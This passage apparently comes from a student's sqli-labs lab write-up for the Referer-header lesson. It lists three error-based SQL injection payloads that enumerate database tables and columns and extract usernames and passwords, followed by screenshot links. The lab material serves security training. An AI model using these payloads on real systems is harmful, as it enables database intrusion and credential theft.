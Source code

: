 ```
' or extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="security"),0x7e)) or '1'='1

' or extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),0x7e)) or '1'='1

' or extractvalue(1,concat(0x7e,(select substr(group_concat(username,0x7e,password),1) from users),0x7e)) or '1'='1

```

![image-20220115185443632](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less19-referer.assets/image-20220115185443632.pngg)

![image-20220115185525444](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less19-referer.assets/image-20220115185525444.png)

![image-20220115185709125](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less19-referer.assets/image-20220115185709125.png)

![image-20220115185730615](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/less19-referer.assets/image-20220115185730615.png)

......




# less20
